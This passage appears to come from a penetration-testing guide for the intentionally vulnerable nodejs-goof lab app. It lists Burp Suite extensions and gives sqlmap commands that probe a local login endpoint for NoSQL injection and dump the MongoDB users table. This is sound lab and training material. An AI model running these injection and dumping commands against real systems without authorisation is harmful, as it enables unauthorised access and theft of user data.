 #### Burp Extensions for nodejs-goof

```bash
# Install from BApp Store:
- J2EEScan (for Node.js apps)
- Active Scan++
- Param Miner
- Software Vulnerability Scanner
- Retire.js (JavaScript library scanner)
```

---

### 3.2 SQLMap - NoSQL Injection Automation

**Objective**: Automated NoSQL injection exploitation

#### Basic NoSQL Injection Test
```bash
# Test login endpoint
sqlmap -u "http://localhost:3001/login" \
  --data='{"username":"admin@snyk.io","password":"test"}' \
  --headers="Content-Type: application/json" \
  --level=5 --risk=3 --technique=B \
  --batch

# With proxy for debugging
sqlmap -u "http://localhost:3001/login" \
  --data='{"username":"admin@snyk.io","password":"test"}' \
  --headers="Content-Type: application/json" \
  --proxy="http://127.0.0.1:8080" \
  --level=5 --risk=3
```

#### Advanced MongoDB Injection
```bash
# Test with MongoDB payloads
sqlmap -u "http://localhost:3001/login" \
  --data='{"username":"admin@snyk.io","password":"test"}' \
  --headers="Content-Type: application/json" \
  --tamper=charunicodeescape \
  --dbms=MongoDB \
  --technique=BEUST \
  --dump

# Extract user database
sqlmap -u "http://localhost:3001/login" \
  --data='{"username":"*","password":"*"}' \
  --headers="Content-Type: application/json" \
  --dbms=MongoDB \
  -D express-todo -T users --dump
```
